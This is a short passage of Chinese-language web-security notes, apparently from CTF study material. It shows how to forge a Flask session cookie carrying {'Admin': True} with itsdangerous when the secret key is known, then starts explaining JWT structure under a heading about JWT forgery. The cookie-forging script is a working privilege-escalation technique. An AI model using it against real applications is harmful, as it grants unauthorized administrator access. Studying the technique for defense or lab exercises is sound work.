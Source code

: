 

```
python xxx.py encode -s "secret的值" -t 内容
```





新的脚本，数据需要解密之后更换：

```python
from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib

PAYLOAD = {'Admin': True}

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

print(signer.dumps(PAYLOAD))
```







## jwt伪造

jwt全称JSON Web Token

用于作为JSON对象在各方之间安全的传输信息，JWT通过将用户信息封装成token的方式进行身份验证



组成格式：

HEADER.PAYLOAD.SIGNATURE

头部，载荷，签名

头部就是个JSON对象，alg就是选择加密算法hs256

```
iss: 该JWT的签发者

sub: 该JWT所面向的用户

aud: 接收该JWT的一方

exp(expires): 什么时候过期，这里是一个Unix时间戳

iat(issued at): 在什么时候签发的

SIGNATURE：表示对 JWT 信息的签名。其实就是对HEADER与PAYLOAD进行一次加密处理，主要是验证整个JWT内容有没有被篡改。首先，需要指定一个密钥（secret）。这个密钥只有服务器才知道，不能泄露给用户。然后，使用 Header 里面指定的签名算法（默认是 HMAC SHA256），按照下面的公式产生签名。
```
